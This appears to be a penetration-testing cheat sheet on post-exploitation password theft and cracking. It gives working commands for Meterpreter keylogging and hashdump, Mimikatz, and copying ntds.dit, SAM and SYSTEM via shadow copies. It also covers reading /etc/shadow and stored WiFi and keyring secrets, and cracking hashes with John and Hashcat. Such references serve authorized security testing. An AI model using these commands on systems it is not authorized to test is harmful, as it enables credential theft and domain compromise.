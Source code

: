 ```yaml
---
title: Obtaining and Cracking Passwords
category: Post-Exploitation
order: 6
---
```


> **Windows** 

Metasploit Key logger for passwords | keyscan_start, keyscan_stop, keyscan_dump
PwDump | Pwdump drops files to disk and caught by AV <br> http://www.tarasco.org/security/pwdump_7/
Fgdump | fgdump drops files to disk and caught by AV <br> Source available to evade AV <br> http://foofus.net/goons/fizzgig/fgdump/downloads.htm#previous-version
Other PWDump Versions | http://www.openwall.com/passwords/windows-pwdump
[Windows Credential Editor (WCE)](https://www.ampliasecurity.com/research/windows-credentials-editor/) | wce64.exe -w

**[Mimikatz](https://github.com/gentilkiwi/mimikatz)**
1. Determine architecture (32 vs 64 bit)
2. Determine if you have admin privs 
3. [AV Bypass](http://www.blackhillsinfosec.com/?p=5555)

**Metasploit Mimikatz**
{% highlight bash %}
#Migrate to a process with your current architecture
sysinfo
ps
migrate [pid]

#Load mimikatz
load mimikatz; or
use kiwi
msv
kerberos
{% endhighlight %}


References:
* [Offensive Security](https://www.offensive-security.com/metasploit-unleashed/Mimikatz/)
* [Golden Ticket](https://www.christophertruncer.com/golden-ticket-generation/) 
* [Mimikatz to dump passwords](http://blog.opensecurityresearch.com/2012/06/using-mimikatz-to-dump-passwords.html) 
* [Domain Passwords](http://carnal0wnage.attackresearch.com/2013/10/dumping-domains-worth-of-passwords-with.html)

**Metasploit hashdump**

{% highlight bash %}
meterpreter >hashdump (from memory)
meterpreter > run hashdump (hash and syskey from registry)
{% endhighlight %}

**Volume Shadow Copy Service (domain controller)**

{% highlight bash %}
cscript vssown.vbs /status or /start or /create /c
copy \\ ? \GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\ntds\ntds.dit ntdsbackup.dit 
copy \\ ? \GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SYSTEM systembackup.bak
copy \\ ? \GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SAM sambackup.bak

Analyze with ntds Dump Hash
{% endhighlight %}

Required Tools:
* [vssown vbs](https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs)  
* [vssown py](https://github.com/MarkBaggett/MarkBaggett/blob/master/vssown.py)
* [ntds Dump Hash](http://csabarta.com/downloads/ntds_dump_hash.zip)

> **Linux**

Users and Passwords:

* /etc/passwd and /etc/shadow

Network or WiFi Passwords:

* /etc/NetworkManager/system-connections

Gnome Keyring:

* ~/.gnome/keyrings

> **Password Cracking Tools**

**GPU**

* MD5 Cracker: http://bvernoux.free.fr/md5/index.php
* oclHashcat  and Hashcat (same project)
* CUDA-multiforcer
* aircrack-ng-CUDA
* pyrit (WPA and WPA w/ CoWPAtty)

**CPU**

* John
* Cain (note: wordlist is located at C:\Program file\Cain\Wordlist\Wordlist.txt)


> **John the Ripper**

Crack Password Bruteforce | <code> john hash.txt </code>
View Cracked Passwords | <code> ./john --show [password file] </code>
Pause a session | CTRL-C
Kill a session | <code> CTRL-C twice quickly </code>
Restore a session | <code> ./john --restore </code>
Current Status | any key
Customize Session based on password policy (e.g., length) | edit john.conf (Linux) and john.ini (windows)
Combine Shadow and passwd | <code> ./unshadow passwd_copy shadow_copy > combined.txt </code>
Password length Customization | <code> MinLen and MaxLen <code>
Rule Set | [Korelogic](http://contest-2010.korelogic.com/rules.html)

***Useful Links***

* [Getting Started](https://www.tunnelsup.com/getting-started-cracking-password-hashes/)

> **Hashcat**

Usage:
{% highlight bash %}

#dictionary
hashcat -a 0 -m 1000 [NTLMHASHES] wordlists/rockyou.txt -r hob064.rule -o cracked.txt
#brute force
hashcat-cli32.exe -m 0 <hashes.txt> -a  3  ?1?1?1?1?1?1?1?1 --increment -1 ?l?d?u


#Finding kind of hash
hashcat --help | grep NTLM

#Linux
#1. Find Hash Type
grep -A 18 ENCRYPT_METHOD /etc/login.defs
or use the /etc/shadow:
$1$: it uses MD5.
$5$: it uses SHA-256.
$6$: it uses SHA-512.
$2a$: it uses blowfish, not supported everywhere.
Otherwise it uses DES.

#2. Prepare hash for hashcat
sudo cat /etc/shadow | grep '\$' | cut -d ':' -f2

#3. Crack (MD5 example)
hashcat64.exe -m 500 hashes.lst 10000.txt -r OneRuleToRuleThemAll.rule -o cracked.txt



#Finding kind of hash
hashcat --help | grep NTLM
{% endhighlight %}

Rule Sets:

* [hob0Rules](https://github.com/praetorian-inc/Hob0Rules)
* [onerule](https://github.com/NotSoSecure/password_cracking_rules/blob/master/OneRuleToRuleThemAll.rule)

Useful Links:

* [SANS - Breaking Various Hashes](https://pen-testing.sans.org/blog/2017/10/04/how-to-guide-cracking-into-piles-of-files)
* [/etc/shadow](https://null-byte.wonderhowto.com/how-to/hack-like-pro-crack-passwords-part-3-using-hashcat-0156543/)
* [bruteforce](http://blog.x1622.com/2016/01/syntax-example-to-brute-force-with.html)

>**Cain**

Word List location | C:\Program file\Cain\Wordlist\Wordlist.txt
Password Dictionary restarts at last point | Right-Click the dictionary-> select Reset initial file position

> **Password Lists**

Example Hashes | https://hashcat.net/wiki/doku.php?id=example_hashes
Password Lists in Kali | /usr/share/wordlists/
Danielmiessler | https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials
Tailor Password list to policy | <code> > pw-inspector [-i FILE] [-o FILE] [-m MINLEN] [-M MAXLEN] [-c MINSETS] -l -u -n -p –s  <br> > pw-inspector -i /usr/share/wordlists/nmap.lst -o /root/passes.txt -m 6 -M 1 </code>
Combine Word Lists | <code> > cat wordlist.txt <wordlist2.txt....> | sort | uniq > dictionary.txt </code>
Word List from Website | <code> > mkdir /tmp/source <br> > cd /tmp/source <br> > wget -r -l [Page Depth] [target_website] <br> > cd .. <br> grep -h -r """" source | tr '[:space:]' '\n' | sort | uniq >wordlist.lst <br> > grep -v '<' wordlist.lst > newlist.lst </code>
Password Lists | https://downloads.skullsecurity.org/passwords/
Weakpass | https://weakpass.com/wordlist/online
Crackstation | https://crackstation.net/
Hashes.org | https://hashes.org/search.php
Practice Hashes | http://contest-2012.korelogic.com/


> **CISCO Group Password**

From Kali:<br>
<code>cisco-decrypt (GroupPassword)</code>


> **Mimikatz from Memory Image**

<code> vol.py -f system_image.vmem --profile=Win7SP1x64 mimikatz </code>


> **Rainbow Tables**

* http://project-rainbowcrack.com
* http://souceforce.net/projects/ophcrack
* http://lasecwww.epfl.ch/~oechslin/projects/ophcrack



